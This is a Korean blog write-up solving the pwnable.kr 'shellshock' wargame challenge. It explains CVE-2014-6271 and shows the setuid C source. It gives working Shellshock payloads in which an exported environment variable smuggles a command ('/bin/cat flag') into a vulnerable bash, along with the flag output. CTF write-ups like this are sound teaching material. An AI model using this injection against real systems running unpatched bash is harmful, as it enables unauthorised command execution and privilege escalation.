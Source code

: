 ```yaml
---
title: "[Pwnable.kr] Toddler's Bottle - shellshock 문제풀이"
date: 2019-02-13
draft: false
category: [wargame]
subcategories: [pwnable.kr]
tags: [Write-up, Pwnable.kr]
---
```


밤에 바로 잘까 하다가 갑자기 1pt 짜리 shellshcok 문제가 있었다는 것이 생각나 후딱 풀어보았다.
예전에 CTF에서 나왔던 걸 풀어봐서인지 금방 풀 수 있었다.  

<!--more-->
  
문제 접속 정보는 아래와 같다.

```plain
ssh shellshock@pwnable.kr -p2222 (pw:guest)
```

문제에 접속하면 4개의 파일을 확인할 수 있다.  

> -r-xr-xr-x  1 root shellshock     959120 Oct 12  2014 bash  
> -r--r-----  1 root shellshock_pwn     47 Oct 12  2014 flag  
> -r-xr-sr-x  1 root shellshock_pwn   8547 Oct 12  2014 shellshock  
> -r--r--r--  1 root root              188 Oct 12  2014 shellshock.c  

다른 문제들이랑 동일하게 실행파일, 소스코드, flag 파일이 있고, 이번에는 추가적으로 `bash`가 있다.
`shellshock.c`의 내용은 다음과 같다.  

```c
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

소스코드가 굉장히 짧다.
다른 문제들에 비해 비교적 간단한데 이 중 주의깊게 봐야 할 부분은 `system()` 함수를 호출하는 부분이다.

`system()` 함수를 호출 해 `/home/shellshock/bash -c 'echo shock_me`를 실행시킨다.
즉 현재 디렉토리에 있는 `bash`를 통해 `echo shock_me`를 실행시키는 것이다.
`shellshock` 취약점은 하도 유명한 취약점이라 한번쯤은 이름이라도 들어봤을 것 같다.
그래서 현재 디렉토리에 있는 `bash`가 `shellshock` 취약점을 사용할 수 있는 버전인지 확인을 해 보았다.
먼저 그냥 `bash`의 버전을 확인 해 보면 `4.3.48`로 `shellshock` 취약점에 취약한 버전이 아니다.  

```bash
shellshock@ubuntu:~$ bash --version
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

하지만 현재 디렉토리에 있는 `bash`의 버전은 `4.2.25`로 `shellshock`에 취약하다.  

```bash
shellshock@ubuntu:~$ ./bash --version
GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

그렇다면 `shellshock.c`에서 `shellshock` 취약점을 사용할 수 있는 현재 디렉토리의 `bash`를 사용 해 특정 명령어를 실행하니, `shellshock` 취약점을 사용 해 `flag`를 읽으면 될 것 같다.
일단 `shellshock` 취약점을 테스트 해 볼 수 있는 방법은 다음과 같다.  

```bash
$ ​$ env x='() { :; }; echo test' bash -c "echo test2"
test
test2
```

특정 환경변수에 위와 같이 값을 입력한 후, `shellshock`에 취약한 `bash`를 실행시키면 함수의 종료부인 `;` 뒤의 추가적인 명령어 (위의 예시에서는 `echo test`)가 실행되는 것이다.
(echo test2가 출력되는 이유는 새로운 bash를 이용 해 echo test2 명령어를 실행시켰기 때문이다.  

처음에는 이게 왜 실행되는지 잘 이해가 되지 않았다.
그래서 더 찾아보다가 취약점의 원인에 대해 잘 잘 설명한 블로그 글을 찾았다.  

> [Shellshock 설명 블로그](https://operatingsystems.tistory.com/entry/Shellshock-CVE20146271)  

위의 블로그에 따르면, `bash process`가 동작하는 순서는 다음과 같다.  

```plain
1. bash 실행
2. bash 환경변수 초기화
3. bash shell prompt 출력
4. 명령어 대기
5. (명령어 수행할 경우) 명령어를 문자열로 저장 해 해당 문자열 파싱
6. 파싱 된 구초제를 이용 해 명령어 수행
```

이 때, `shellshock` 취약점은 `2번` 과정에서 발생한다.
환경변수를 초기화 할 때 함수의 종료를 의미하는 `;`를 끝으로 더 이상 인식하지 말아야하는데 이를 제대로 파악하지 못해 그 뒤의 명령어가 실행되는 취약점이다.  

다른 예를 들어 설명하면, `export x='() { echo test; }; echo test2'`에서 `export x='() { echo test; };`만을 환경변수 `x`의 값으로 넣어, `x` 실행 시 `echo test`가 나오도록 하고 나머지 부분은 무시하거나 따로 처리하도록 해야 하는데, `;` 뒤의 `echo test2`를 명령어로 인식하여 새로운 `bash` 실행 시 `echo test2`가 실행되는 것이다.
이를 테스트 해 보면 다음과 같다.  

```bash
shellshock@ubuntu:~$ export x='() { echo test; }; echo test2'
shellshock@ubuntu:~$ ./bash
test2
shellshock@ubuntu:~$ x
test
```

원래의 `bash`에서 `x` 환경변수를 등록한 후 취약한 버전의 `bash`를 실행하면 자동으로 `echo test2`가 실행된다.
새로운 `bash`가 실행되며 `x` 환경변수는 초기화 되었으므로 `x`의 값은 새로운 `bash`에서 `echo test`를 실행하는 함수로 설정되어 있어, `x` 실행 시 `echo test`가 실행된다.

그렇다면 문제로 돌아가서, `shellshock.c` 코드에서는 취약한 버전의 `bash`를 새로 실행한다.
또한 권한을 확인 해 보았을 때 `shellshock` 실행파일에 `SetUID`가 걸려있으므로, 해당 실행 파일의 권한을 이용 해 `bash`를 실행한다면, `flag` 또한 읽을 수 있다.
그래서 x라는 이름으로 아래와 같은 환경변수를 등록했다.    

```bash
shellshock@ubuntu:~$ export x='() { echo test; }; /bin/cat flag'
```

그러면 `shellshock` 실행파일에서 `system("/home/shellshock/bash -c 'echo shock_me'");`를 실행하며 새로운 `bash`를 실행시킬 것이며, 이 때 환경변수를 초기화 하며 `x`는 `echo test`를 실행하는 함수가 저장 될 것이다.
또한 `;` 뒤의 `/bin/cat flag` 명령어를 실행하게 될 것이다.
이 후 `shellshock`를 실행 해 본 결과 아래와 같이 플래그를 얻을 수 있었다. ㅎㅎ  

![](/images/pwnable.kr/shellshock/shellshock_01.PNG)

```bash
shellshock@ubuntu:~$ export x='() { echo test; }; /bin/cat flag'
shellshock@ubuntu:~$ ./shellshock 
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```

---

```plain
FLAG : only if I knew CVE-2014-6271 ten years ago..!!
```

